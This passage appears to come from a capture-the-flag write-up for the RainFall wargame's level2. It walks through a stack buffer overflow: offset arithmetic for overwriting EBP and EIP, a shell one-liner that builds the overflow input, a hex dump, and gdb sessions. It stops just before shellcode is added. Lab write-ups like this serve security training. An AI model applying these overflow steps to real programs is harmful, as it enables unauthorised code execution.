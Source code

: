 It's also important to note that we're executing printf("%p") instead of puts() & strdup() when the 92th byte of the stack is between 0xb0 and 0xbf

Let's try to run this printf:

```bash
# To write what we want to the 92th byte of the stack, keep in mind that we're starting to write with gets() at index 28
# To reach the end of our buffer we should then pass a string with a length of 76
# EBP and EIP of the main() frame will be 4 bytes each, so to override both of them, we should pass (76 + 2*4) bytes
# 

level2@RainFall:~$ echo -n "abcdefghijklmnopqrstuvwxyz0123456789abcdefghijklmnopqrstuvwxyz0123456789abcdefghijk$(echo -n -e '\xb0')" | wc -c
84

level2@RainFall:~$ echo -n "abcdefghijklmnopqrstuvwxyz0123456789abcdefghijklmnopqrstuvwxyz0123456789abcdefghijk$(echo -n -e '\xb0')" > /tmp/lol

level2@RainFall:~$ xxd /tmp/lol
0000000: 6162 6364 6566 6768 696a 6b6c 6d6e 6f70  abcdefghijklmnop
0000010: 7172 7374 7576 7778 797a 3031 3233 3435  qrstuvwxyz012345
0000020: 3637 3839 6162 6364 6566 6768 696a 6b6c  6789abcdefghijkl
0000030: 6d6e 6f70 7172 7374 7576 7778 797a 3031  mnopqrstuvwxyz01
0000040: 3233 3435 3637 3839 6162 6364 6566 6768  23456789abcdefgh
0000050: 696a 6bb0                                ijk.
```

```bash
level2@RainFall:~$ gdb ./level2
gdb-peda$ b *0x080484f2 # (After puts() call in p())

gdb-peda$ run < /tmp/lol

gdb-peda$ print $ebp
$1 = (void *) 0xbffff6c8

# $ebp - 4c = 0xbffff67d
gdb-peda$ printf "%s", 0xbffff67d
abcdefghijklmnopqrstuvwxyz0123456789abcdefghijklmnopqrstuvwxyz0123456789abcdefghijk
```

We're hitting the printf() call !

```bash
level2@RainFall:~$ cat /tmp/lol  - | ./level2
(0xb06b6a69)

level2@RainFall:~$ echo $?
1
```

Let's grab a random shellcode from the internet...
